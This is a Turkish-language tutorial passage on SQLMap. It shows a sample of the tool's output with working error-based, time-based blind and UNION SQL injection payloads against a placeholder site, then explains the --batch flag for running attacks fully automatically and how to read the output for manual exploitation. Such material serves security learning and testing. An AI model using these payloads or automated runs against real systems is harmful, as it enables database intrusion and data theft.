 ```shell-session
    Payload: id=1 AND (SELECT 7744 FROM(SELECT COUNT(*),CONCAT(0x7170706a71,(SELECT (ELT(7744=7744,1))),0x71707a7871,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1 AND (SELECT 3669 FROM (SELECT(SLEEP(5)))TIxJ)

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: id=1 UNION ALL SELECT NULL,NULL,CONCAT(0x7170706a71,0x554d766a4d694850596b754f6f716250584a6d53485a52474a7979436647576e766a595374436e78,0x71707a7871)-- -
---
[22:26:56] [INFO] the back-end DBMS is MySQL
web application technology: PHP 5.2.6, Apache 2.2.9
back-end DBMS: MySQL >= 5.0
[22:26:57] [INFO] fetched data logged to text files under '/home/user/.sqlmap/output/www.example.com'

[*] ending @ 22:26:57 /2020-09-09/
```

SQLMap'teki **`--batch`** parametresi, aracı tam otomatik modda çalıştırmaya yarar. Bu parametre, SQLMap'in çalışması sırasında kullanıcıdan herhangi bir onay veya ek bilgi istememesini sağlar.

### **Detaylı Açıklama:**

Normalde SQLMap, saldırı sırasında bazı durumlarda kullanıcıya sorular sorabilir, örneğin:

- Hangi veritabanı motorunun hedeflendiğini onaylama.
- Belirli bir saldırı tekniği seçme (örneğin: union-based, error-based vb.).
- Hassas işlemler için devam edip etmeme (örneğin: veritabanı silme riskine karşı uyarılar).

**`--batch`** kullanıldığında:

- SQLMap tüm bu soruları otomatik olarak varsayılan yanıtlarla geçer.
- Kullanıcı etkileşimine gerek kalmadan saldırıyı yürütür.

### **Ne Zaman Kullanılır?**

- Tam otomasyon gerektiğinde.
- Araç komut dosyaları (scripts) içinde SQLMap kullanılırken.
- Uzun test süreçlerinde, sürekli etkileşimden kaçınmak için.

### **Kısaca:**

**`--batch`**, SQLMap'in tüm işlemleri varsayılan değerlerle otomatik olarak gerçekleştirmesini sağlar. Kullanıcıdan onay istemez.


### SQLMap Çıktı Açıklaması

SQLMap çıktısı, tarama sırasında güvenlik açıkları ve kullanılan teknikler hakkında bilgi verir. Bu bilgiler, enjeksiyon türünü ve savunmasız parametreyi anlamamıza yardımcı olur. Böylece, web uygulamasını manuel olarak istismar etmek istediğimizde rehberlik sağlar.
